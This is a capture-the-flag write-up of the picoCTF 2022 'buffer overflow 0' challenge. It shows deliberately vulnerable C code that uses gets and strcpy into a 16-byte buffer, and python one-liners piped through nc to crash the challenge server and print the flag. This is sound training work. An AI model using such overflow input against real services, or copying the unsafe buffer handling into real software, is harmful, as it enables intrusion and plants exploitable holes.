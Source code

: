 # buffer overflow 0

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 100
Tags: picoCTF 2022, Binary Exploitation, gets
Author: ALEX FULTON / PALASH OSWAL

Description:

Smash the stack
Let's start off simple, can you overflow the correct buffer? 

The program is available here. You can view source here. And connect with it using:
nc saturn.picoctf.net 61481
 
Hints:
1. How can you trigger the flag to print?
2. If you try to do the math by hand, maybe try and add a few more characters. 
   Sometimes there are things you aren't expecting.
3. Run man gets and read the BUGS section. How many characters can the program really read?
```

## Solution

### Study the source code

The `main` function of the program look like this
```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

This is a classic buffer overflow. The program sets up a signal handler catching `SIGSEGV` error conditions.
SigSegV means a signal for memory access violation, essentially trying to read or write from/to a memory area 
that your process does not have access to. This is also known as a segmentation fault.

When this happens the code in the `sigsegv_handler` is executed and tries to fix the problem or at least graciously quit the program.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

Conveniently, in this case the code prints the flag for us.

There is also a `vuln` function with a rather small buffer
```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

If we [overflow this buffer](https://en.wikipedia.org/wiki/Buffer_overflow) with more data than it can handle, we might write to the return address of the function stored on the stack. If that memory address is illegal when the program tries to return, we will cause a segmentation fault.

### Try exploitation locally 

Lets try to overflow the buffer locally first.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ chmod +x vuln

┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```

Ah, that's right. We need a dummy flag for testing.
```
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ echo "picoCTF{Fake_Flag}" > flag.txt
                                          
┌──(kali㉿kali)-[/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | ./vuln  
Input: picoCTF{Fake_Flag}
```

Success! We sent 20 bytes (slightly more than the buffer size of 16) and we got the flag.

### Connect to the server and get the flag

Finally, lets connect to the server and try to get the flag. If we don't succeed, we slightly increase the output until we do.
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*20)" | nc saturn.picoctf.net 61481

Input:                             
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*25)" | nc saturn.picoctf.net 61481
Input:

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2022/Binary_Exploitation/Buffer_Overflow_0]
└─$ python -c "print('A'*30)" | nc saturn.picoctf.net 61481
Input: picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [Wikipedia - Buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow)
